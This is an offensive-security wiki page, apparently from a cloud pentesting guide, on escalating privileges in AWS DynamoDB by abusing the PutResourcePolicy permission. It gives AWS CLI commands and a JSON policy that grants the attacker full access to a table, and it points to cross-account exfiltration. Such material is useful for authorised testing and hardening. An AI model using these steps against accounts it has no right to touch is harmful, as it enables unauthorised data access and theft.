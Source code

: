 # AWS - DynamoDB Privesc

## dynamodb

For more info about dynamodb check:

[[../../aws-services/aws-dynamodb-enum.md]]

### `dynamodb:PutResourcePolicy`, and optionally `dynamodb:GetResourcePolicy`

Since March 2024, AWS offers *resource based policies* for DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

So, if you have the `dynamodb:PutResourcePolicy` for a table, you can just grant yourself or any other principal full access to the table.

Granting the `dynamodb:PutResourcePolicy` to a random principal often happens by accident, if the admins think that granting `dynamodb:Put*` would only allow the principal to put items into the database - or if they granted that permissionset before March 2024...

Ideally, you also have `dynamodb:GetResourcePolicy`, so you do not overwrite other potentially vital permissions, but only inject the added permissions you need:

```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
	--resource-arn <table_arn> \
	--query 'Policy' \
	--output text > policy.json
```

If you cannot retrieve the current policy, just use this one that grants full access over the table to your principal:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "FullAccessToDynamoDBTable",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
            },
            "Action": [
                "dynamodb:*"
            ],
            "Resource": [
                "arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
            ]
        }
    ]
}
```

If you need to customize it, here is a list of all possible DynamoDB actions: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). And here is a list of all actions that can be allowed via a resource based policy *AND which of these can be used cross-account (think data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Now, with the policy document `policy.json` ready, put the resource policy:

```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
	--resource-arn <table_arn> \
	--policy "$(cat policy.json)"
```

Now, you should have the permissions you needed.

### Post Exploitation

As far as I know there is **no other direct way to escalate privileges in AWS just by having some AWS `dynamodb` permissions**. You can **read sensitive** information from the tables (which could contain AWS credentials) and **write information on the tables** (which could trigger other vulnerabilities, like lambda code injections...) but all these options are already considered in the **DynamoDB Post Exploitation page**:

[[../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md]]

### TODO: Read data abusing data Streams

